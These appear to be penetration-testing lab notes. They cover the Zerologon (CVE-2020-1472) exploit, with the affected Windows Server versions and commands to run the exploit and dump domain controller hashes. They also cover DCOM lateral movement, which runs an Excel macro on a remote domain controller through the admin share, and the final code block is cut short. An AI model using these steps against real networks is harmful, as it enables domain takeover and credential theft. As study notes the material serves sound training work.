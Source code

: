 ```bash
Windows Server 2008 R2 for x64-based Systems Service Pack 1
Windows Server 2008 R2 for x64-based Systems Service Pack 1 (Server Core installation)
Windows Server 2012 
Windows Server 2012 (Server Core installation)
Windows Server 2012 R2
Windows Server 2012 R2 (Server Core installation)
Windows Server 2016
Windows Server 2016 (Server Core installation)
Windows Server 2019
Windows Server 2019 (Server Core installation)
Windows Server, version 1903 (Server Core installation)
Windows Server, version 1909 (Server Core installation)
Windows Server, version 2004 (Server Core installation)

# exploit
python cve-2020-1472-exploit.py multimaster $tip
# dump hash
secretsdump.py -just-dc -no-pass 'multimaster$'@multimaster
```

### DCOM
Distributed Component Object Model
+ COM, Microsoft Component Object Model, system for creating software components that interact with each other. same-process and cross-process interaction
+ DCOM, COM extended to DCOM for interaction between multiple computers over a network.
+ COM, DCOM  very old technologies. DCOM interaction is performed over RPC and TCP port 135; local administrator access is required to call DCOM service Control Manager(API)


```bash
# login student vm via jeff_admin  domain user,  jeff_admin is the local admin on dc 172.16.196.5
## discover available methods or sub-objects for this DCOM object
$com = [activator]::CreateInstance([type]::GetTypeFromProgId("Excel.Application","172.16.196.5"))
$com | Get-Member


#-create macro file
## excel, view--macros, save in legacy.xls
Sub mymacro()
    Shell ("notepad.exe")
End Sub


#-copy to remote computer, need local administator  and have access to remote filesystem through smb
$LocalPath = "C:\Users\jeff_admin.corp\legacy.xls"
$RemotePath = "\\172.16.196.5\c$\myexcel.xls"
[System.IO.File]::Copy($LocalPath, $RemotePath, $True)

#-create system account profile
## excel.application is instantiated throuth DCOM with  system account,  system account does not have profile, which is used as part of opening process
$Path = "\\172.16.196.5\c$\Windows\sysWOW64\config\systemprofile\Desktop"
$temp = [system.io.directory]::createDirectory($Path)

#-execute macro
$Workbook = $com.Workbooks.Open("C:\legacy.xls")
$com.Run("mymacro")

#-full code
$com = [activator]::CreateInstance([type]::GetTypeFromProgId("Excel.Application","172.16.196.5"))
$LocalPath = "C:\Users\jeff_admin\legacy.xls"

$RemotePath = "\\172.16.196.5\c$\legacy.xls"
```